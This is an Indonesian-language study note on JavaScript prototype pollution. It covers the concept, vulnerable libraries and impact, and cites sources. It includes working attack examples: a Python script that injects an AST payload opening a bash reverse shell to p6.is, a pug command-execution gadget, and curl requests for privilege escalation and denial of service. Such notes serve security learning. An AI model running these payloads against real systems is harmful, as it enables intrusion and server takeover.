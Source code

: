 # Prototype Pollution
#web #rce #nodejs #objectinjection


## Definisi
Prototype adalah mekanisme pada JavaScript untuk menurunkan fitur dari satu objek ke objek lainnya.

Prototype Pollution adalah tipe dari serangan object injection.

Ketika JavaScript membuat objek baru, mereka membawa properties dan methods dari prototype "objek" yang mengandung fungsi dasar seperti `toString, constructor, hasOwnProperty`. Contoh pada fungsi `toString` yang berubah karena terpolusi.

```js
let customer = {name: "person", address:"here"}
console.log(customer.toString())
// output: {object Object}

customer.__proto__.toString = ()=>{alert("polluted")}
console.log(customer.toString())
// alert box pops up: "polluted"
```

Akibat dari prototype pollution di atas, setiap `toString()` dipanggil pada setiap objek, alert box akan muncul dengan tulisan "polluted", kecuali object tersebut secara explisit mengganti Objects.toString() dengan implementasinya sendiri.

Polusi ini dapat diinputkan ke dalam segala jenis user input pada aplikasi berbasis web, baik formulir, header, files, dan URL.

Hal ini dikarenakan banyak library JavaScript yang menerima opsi pada objek setelah memastikan keberadaan dari properti tertentu. Contoh:

```js
options.someOption = options.someOption || default.someOption;
```

## Deteksi
**Whitebox**
Versi lama dari node-forge(library untuk implementasi kriptografi di JavaScript) pada fungsi `util.setPath`. Atau pada library yang berfungsi sebagai property setting atau object-path-setting, seperti  `lodash set`.
```js
const nodeforge = require('node-forge')
var obj = {}
nodeforge.util.setPath(obj, ['__proto__', 'polluted'], true);
console.log(polluted)
```

Atau berdasarkan contoh pada definisi, ketika terdapat fungsi dasar `toString, constructor, hasOwnProperty`.
```js
let customer = {name: "person", address:"here"}
console.log(customer.toString())
// output: {object Object}

customer.__proto__.toString = ()=>{alert("polluted")}
console.log(customer.toString())
// alert box pops up: "polluted"
```

Lokasi lainnya pada library:

**flat**
```js
import requests  
  
TARGET_URL = 'http://p6.is:3000'  
  
# make pollution  
requests.post(TARGET_URL + '/vulnerable', json = {  
    "__proto__.type": "Program",  
    "__proto__.body": [{  
        "type": "MustacheStatement",  
        "path": 0,  
        "params": [{  
            "type": "NumberLiteral",  
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"  
        }],  
        "loc": {  
            "start": 0,  
            "end": 0  
        }  
    }]  
})  
  
# execute  
requests.get(TARGET_URL)
```

**pug**
```js
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // "uid=0(root) gid=0(root) groups=0(root)\n\n<h1>It worksndefine</h1>"
```


- jQuery sebelum 3.4.0
- Handlebar
- express
- minimist
- hoek

## Dampak
Dampaknya: Denial of Service, SQL Injection, XSS, RCE.  
Teknik ini juga dapat bypass HTML sanitizer, contoh `html-sanitize` dan `DOMPurify`.

Injeksi payload pada polluted key (cluent side attack, XSS attack)
```http
https://vulnerable.app/?__proto__.[pollutedKey]=pollutedValue
```

Another Example from Snyk
```sh
# `{ name: "Robert", surname: "Tables", about: "Database sanitization expert" }`

# Privilege escalation
curl -H "Content-Type: application/json" -X POST -d '{"about": {"__proto__": {"role": "admin"}}}' https://api.startup.io/users/1337 && curl -X GET https://api.startup.io/users/1337/role

# Denial of Service terhadap fungsi toString
curl -H "Content-Type: application/json" -X POST -d '{"about": {"__proto__": {"toString": "Two bytes meet. The first byte asks: Are you ill? The second byte replies: No, just feeling a bit off."}}}' https://api.startup.io/users/1337
```


## Sumber
- https://learn.snyk.io/lessons/prototype-pollution/javascript/
- https://github.com/HoLyVieR/prototype-pollution-nsec18
- https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications
- https://blog.p6.is/AST-Injection/
- https://portswigger.net/daily-swig/node-js-applications-open-to-prototype-pollution-attacks-via-legacy-function-in-popular-encryption-library
- https://www.tenable.com/blog/identifying-prototype-pollution-vulnerabilities-using-tenable-io-web-application-scanning
- https://snyk.io/blog/after-three-years-of-silence-a-new-jquery-prototype-pollution-vulnerability-emerges-once-again/

Bounty Reports
- https://hackerone.com/holyvier?type=user
